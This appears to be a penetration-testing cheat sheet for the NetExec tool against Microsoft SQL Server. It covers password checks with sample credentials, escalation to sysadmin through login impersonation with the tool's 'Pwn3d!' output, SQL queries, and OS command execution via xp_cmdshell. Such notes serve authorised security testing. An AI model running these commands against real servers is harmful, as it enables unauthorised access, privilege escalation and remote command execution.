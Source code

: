 # Netexec: 

## Credential Test: 

- nxc mssql 172.21.0.0 -u afsimmons -p '0neP@assw0rd1!'
- nxc mssql 172.21.0.0 -u afsimmons -p '0neP@assw0rd1!' -d megacorpone.com
- nxc mssql 172.21.0.0 -u afsimmons -p '0neP@assw0rd1!' --local-auth

## Specifying ports: 

- nxc mssql 172.21.0.0 -u afsimmons -p '0neP@assw0rd1!' --port 1434

# Check for impersonation abilities: 

- nxc mssql 172.21.0.0 -u afsimmons -p 0neP@assw0rd1!'

```
NetExec mssql <ip> -u afsimmons -p password -M mssql_priv -o ACTION=privesc
MSSQL       <ip>   1433   FQDN      [*] Windows 10 / Server 2019 Build 17763 (name:FQDN) (domain:FQDN.local)
MSSQL       <ip>   1433   FQDN      [+] FQDN\afsimmons:password 
MSSQL_PRIV  <ip>   1433   FQDN      [+] FQDN\afsimmons can impersonate: sa (sysadmin)
MSSQL_PRIV  <ip>   1433   FQDN      [+] FQDN\afsimmons is now a sysadmin! (Pwn3d!)
```

# WARNING: Remember to rollback sysadmin privs in Production!

```
NetExec mssql <ip> -u user -p password -M mssql_priv -o ACTION=rollback
MSSQL       <ip>   1433   FQDN      [*] Windows 10 / Server 2019 Build 17763 (name:FQDN) (domain:FQDN.local)
MSSQL       <ip>   1433   FQDN      [+] FQDN\user:password (Pwn3d!)
MSSQL_PRIV  <ip>   1433   FQDN      [+] sysadmin role removed
```

# Executing MSSQL Commands: 
```
nxc mssql 10.10.10.52 -u admin -p 'm$$ql_S@_P@ssW0rd!' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## Execute XP_CMDSHELL

- nxc mssql 172.21.0.0 -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami
# Resources 

- https://www.netexec.wiki/mssql-protocol/authentication
- https://www.netexec.wiki/mssql-protocol/mssql-privesc
- https://www.netexec.wiki/mssql-protocol/mssql-command
- https://github.com/quentinhardy/msdat
